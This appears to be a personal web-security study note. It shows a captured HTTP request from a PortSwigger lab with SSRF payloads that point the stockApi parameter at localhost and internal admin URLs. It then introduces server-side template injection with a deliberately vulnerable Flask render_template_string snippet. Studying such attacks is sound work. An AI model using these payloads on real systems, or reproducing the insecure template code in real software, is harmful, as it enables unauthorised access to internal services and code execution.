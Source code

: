 ### Example
---
We got this Post which make a post into stock Api
````bash
POST /product/stock HTTP/2
Host: 0a4a001e035443fd813d61f800b80034.web-security-academy.net
Cookie: session=M19m7fx9TxnKAqPNUpHjpf1zX1XAoogy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4a001e035443fd813d61f800b80034.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: https://0a4a001e035443fd813d61f800b80034.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
# In this case we may change the parameters of stockApi to get acces into the interanl sever
stockApi=http://localhost/admin
# We can even acces to an internal network
stockApi=http://192.168.0.1:8080/admin
````

## SERVER SITE TEMPLATE INJECTION (SSTI)
---
Server-Side Template Injection (SSTI) is a vulnerability that occurs when user input is unsafely processed by a web application's template engine. If an attacker can inject malicious template expressions, they may achieve **Remote Code Execution (RCE)** or access sensitive data.

This vulnerability is commonly found in web frameworks using template engines like:

- **Jinja2 (Python)**
- **Twig (PHP)**
- **Freemarker (Java)**
- **Velocity (Java)**
- **Smarty (PHP)**
- **Django Template (Python)**

**Example: Vulnerable Code (Jinja2 - Python)**

````python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/ssti')
def ssti():
    user_input = request.args.get("name")
    return render_template_string("Hello " + user_input)

````
